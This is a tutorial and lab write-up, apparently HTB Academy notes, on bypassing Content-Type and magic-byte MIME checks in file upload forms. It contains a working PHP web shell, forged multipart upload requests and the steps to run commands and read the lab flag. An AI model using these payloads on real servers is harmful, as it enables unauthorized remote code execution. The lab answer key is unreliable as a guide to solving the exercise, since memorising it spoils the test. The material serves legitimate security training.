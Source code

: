 # Type Filters

> **🎭 Content Validation:** Bypassing Content-Type headers and MIME-Type validation using magic bytes

## Overview

So far, we have only been dealing with type filters that only consider the file extension in the file name. However, as we saw in the previous section, we may still be able to gain control over the back-end server even with image extensions (e.g. `shell.php.jpg`). Furthermore, we may utilize some allowed extensions (e.g., SVG) to perform other attacks.

All of this indicates that only testing the file extension is not enough to prevent file upload attacks. This is why many modern web servers and web applications also test the content of the uploaded file to ensure it matches the specified type.

---

## Content-Type Header Bypass

> **📝 Header Manipulation:** Modifying the Content-Type header to bypass validation

### Understanding Content-Type Validation

**Example PHP Content-Type Check:**
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

**Vulnerability:** The code sets the `$type` variable from the uploaded file's Content-Type header. Since browsers set this header based on file extension, and it's client-side controlled, we can manipulate it.

### Content-Type Bypass Example

**Modified Bypass Request:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
----boundary--
```

---

## MIME-Type Bypass (Magic Bytes)

> **🎩 Magic Bytes:** Using file signatures to fool MIME-Type detection

### Understanding MIME-Type Validation

**Multipurpose Internet Mail Extensions (MIME)** is an internet standard that determines the type of a file through its general format and bytes structure. This is usually done by inspecting the first few bytes of the file's content, which contain the **File Signature** or **Magic Bytes**.

### GIF Magic Bytes (Easiest to Use)

**Why GIF is Preferred:**
- **ASCII Printable** - `GIF8` is easy to type and remember
- **Non-Binary** - Unlike other formats with non-printable bytes
- **Flexible** - `GIF8` works for both GIF87a and GIF89a
- **Small** - Only 4 bytes needed

### PHP Web Shell with GIF Magic Bytes

**Method 1: Simple Prepend**
```php
GIF8
<?php system($_REQUEST['cmd']); ?>
```

**Method 2: Clean GIF Header**
```php
GIF89a
<?php system($_REQUEST['cmd']); ?>
```

### Burp Suite MIME-Type Bypass

**Request with Magic Bytes:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/gif

GIF8
<?php system($_REQUEST['cmd']); ?>
----boundary--
```

**Expected Response:**
```
File successfully uploaded
```

### Command Execution with Magic Bytes

**Accessing the Web Shell:**
```bash
# Navigate to uploaded file
http://SERVER_IP:PORT/profile_images/shell.php?cmd=id

# Expected output (notice GIF8 at beginning):
GIF8
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:** The command output starts with `GIF8` because this was the first line in our PHP script to imitate the GIF magic bytes, and is now outputted as plaintext before our PHP code is executed.

---

## HTB Academy Lab Solutions

### Lab 1: Comprehensive Filter Bypass

**Target:** Bypass Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters

**Challenge Description:** The server employs multiple layers of protection:
- Client-Side validation (JavaScript)
- Blacklist filters (common PHP extensions)  
- Whitelist filters (only image extensions allowed)
- Content-Type validation (only image content types)
- MIME-Type validation (magic bytes checking)

### Step-by-Step Solution

**Step 6: Complete Combined Attack**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php.jpg"
Content-Type: image/gif

GIF8
<?php system($_REQUEST['cmd']); ?>
----boundary--
```

**Step 7: Verify Upload and Execute**
```bash
# Check upload success
Response: "File successfully uploaded"

# Test command execution
http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=id
# Output: GIF8 uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Read flag
http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=cat /flag.txt
# Flag: HTB{...}
```

This comprehensive guide demonstrates how Content-Type and MIME-Type validation can be bypassed using header manipulation and magic bytes injection.
